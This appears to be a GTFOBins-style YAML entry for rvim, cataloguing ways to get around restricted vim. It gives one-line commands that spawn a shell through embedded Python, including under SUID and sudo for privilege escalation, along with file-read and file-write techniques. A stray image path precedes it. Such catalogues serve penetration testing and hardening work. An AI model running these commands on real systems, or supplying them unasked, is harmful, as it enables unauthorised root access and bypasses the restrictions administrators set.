 ```yaml
---
description: 'From the manual: with rvim "It will not be possible to start shell commands".'
functions:
  shell:
    - code: rvim -c ':py import os;os.system("sh")'
  file-write:
    - code: |
        rvim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: rvim file_to_read
  suid:
    - code: ./rvim -c ':py import os;os.system("sh")'
  sudo:
    - code: sudo rvim -c ':py import os;os.system("sh")'
---
```

